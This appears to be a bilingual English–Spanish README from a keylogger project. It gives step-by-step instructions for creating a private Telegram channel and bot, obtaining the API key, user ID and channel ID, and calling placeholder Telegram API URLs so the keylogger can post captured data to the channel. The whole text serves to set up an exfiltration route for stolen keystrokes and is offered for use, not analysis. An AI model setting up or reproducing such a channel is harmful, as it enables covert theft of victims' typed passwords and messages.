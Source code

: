 # Telegram Bot and Channel settings  [EN]

For the Keylogger send the information using the Telegram Bot, it is necessary 
to make some preliminary preparations that i will summarize below.

1. Create a private Telegram channel where the data will be received.
2. Create a Telegram bot with the [BoFather](https://telegram.me/botfather) tool.
    [Here](https://core.telegram.org/bots) you have everything you need to know 
    about the [Telegram Bots](https://core.telegram.org/bots).
3. Once the bot is created you will have an **API key**. This key is necessary for the
    Bot is identified when sending messages.
4. Next you must obtain a user ID by calling the url
    https://api.telegram.org/bot_TU_API_KEY_/getUpdates
5. Then you must obtain the channel ID. And for this you must make public (momentarily)
    the channel and call the next url
    https://api.telegram.org/bot_ID_USUARIO:_TU_API_KEY_/sendMessage?chat_id=@_NAME_DEL_CANAL&text="message "
    Then you can return the Channel as private.
6. You can now send data to the Bot from the Keylogger and it will publish it on the channel.

You have detailed information about this process
[here] (http://www.bernaerts-nicolas.fr/linux/75-debian/351-debian-send-telegram-notification)

# Configuración del Bot de Telegram y el Canal  [ES]

Para que el Keylogger envie la informacion usando el Bot de Telegram se 
requiere hacer unos preparativos previos que resumiré a continuación.

1.  Crear un canal privado de Telegram donde se recibiran los datos.
2.  Crear un bot de Telegram con la herramienta [BoFather](https://telegram.me/botfather).
    [Aquí](https://core.telegram.org/bots) tienes todo lo necesario que debes saber sobre 
    los [Bots de Telegram](https://core.telegram.org/bots)
3.  Una vez creado el bot tendrás una **clave API**. Esta clave es necesaria para que el 
    Bot se indentifique al enviar los mensajes.
4.  A continuación debes obtener un identificador de usuario llamando a la url
    https://api.telegram.org/bot_TU_API_KEY_/getUpdates
5.  Luego debes obtener el ID del canal. Y para ello deberas hacer público (momentaneamente)
    el canal y llamar a la siguiente url
    https://api.telegram.org/bot_ID_USUARIO:_TU_API_KEY_/sendMessage?chat_id=@_NOMBRE_DEL_CANAL&text="mensaje"
    Después ya puedes volver a poner el Canal como privado.
6.  Ya puedes enviar datos al Bot desde el Keylogger y este los publicará en el canal.

Tienes información detallada sobre este proceso 
[aquí](http://www.bernaerts-nicolas.fr/linux/75-debian/351-debian-send-telegram-notification)

 

 
 